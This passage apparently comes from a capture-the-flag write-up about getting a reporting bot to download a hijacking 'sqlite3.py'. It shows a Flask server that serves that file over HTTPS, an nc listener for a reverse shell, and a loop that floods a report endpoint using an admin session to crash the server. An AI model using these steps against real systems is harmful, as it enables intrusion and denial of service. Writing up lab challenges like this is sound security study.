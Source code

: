 And modify the Flask server to use our certificate:

```python
from flask import Flask, send_file
import os

app = Flask(__name__)

@app.route("/")
@app.route("/<path:path>")  # Match any path
def download_file(path=""):
    file_path = os.path.join(os.getcwd(), "sqlite3.py")
    return send_file(
        file_path,
        as_attachment=True, # <-- Sets the Content-Disposition header, and forces download
        download_name="sqlite3.py",
        mimetype="text/x-python"
    )

app.run(
    host="0.0.0.0", 
    port=8001, 
    debug=True, 
    ssl_context=('cert.pem', 'key.pem') # <-- Use our certificate
)
```
{: .nolineno }
{: file="localserver.py" }

Now Chrome has an HTTPS connection to our local server. The invalid certificate is ignored, and the file is downloaded successfully.

![Bot downloading the file](SuccessDownload.png)

Yippee! 🎉🎉🎉

## 🚀 Memory overload & reverse shell

Now the last step is crashing and restarting the server. I created a simple Python script that made the bot visit the biggest file on the server: `tailwind.css`. We could potentially also just host a giant file ourselves, but this is easier. 

So we setup a reverse shell listener on our local machine:
```bash
$ nc -l 4242
```
{: .nolineno }

And run the spam script:

```python
def make_request():
    url = f"http://{SERVER_IP}:{PORT}/api/report_review"
    cookies = {"session": ADMIN_SESSION}
    json_data={"review_url": "/static/tailwind.css"}
    try:
        return requests.post(url, headers=headers, cookies=cookies, json=json_data)
    except:
        return "Request failed"

while True:
    print(make_request())
```
{: .nolineno }
{: file="overload.py" }
